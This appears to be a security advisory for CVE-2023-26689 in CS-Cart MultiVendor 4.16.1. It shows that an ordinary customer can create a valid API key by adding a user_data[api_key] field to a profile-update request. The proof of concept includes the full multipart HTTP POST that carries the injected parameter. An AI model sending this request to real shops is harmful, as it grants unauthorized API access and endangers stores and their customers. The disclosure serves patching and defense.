

# CVE-2023-26689 - Insufficient Authorization for API key creation in CS-Cart MultiVendor 4.16.1
We identified a vulnerability in the application's authorization process for API key creation. We discovered that any user can inject the user_data[api_key] parameter in the update profile request with an arbitrary value, thus allowing the creation of a valid API key in the backend database.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of “CS-Cart MultiVendor 4.16.1” with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
We selected a non-privileged user, typically without the ability to add an API key, for the purpose of this proof of concept.

Looking at the database, it is evident that the user named "customer" does not have an API key configured.


We went to “My Account” -> “Profile details” to edit our user profile.


In the request sent to the server we injected the following payload
```
POST /index.php HTTP/1.1
Host: 172.16.85.150
Content-Length: 2680
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.85.150
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary08bFuGfVlIBbEaN8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.85.150/index.php?dispatch=profiles.update
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sid_customer_179e8=0d1c7a6627a1297152c33400a642a5c4-C
Connection: close

------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="selected_section"

general
------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="default_cc"


------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="profile_id"

2
------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="user_data[api_key]"

$2y$10$wJ.6VrKkmOTqwo6Ekxnqj.AMrC9Jpe2ChaNcsMd3a.DPuNKWDl6FG
***TRUNCATED***
```

We checked the database and confirmed the api key was created.



Yes! We have the ability to use the API now!


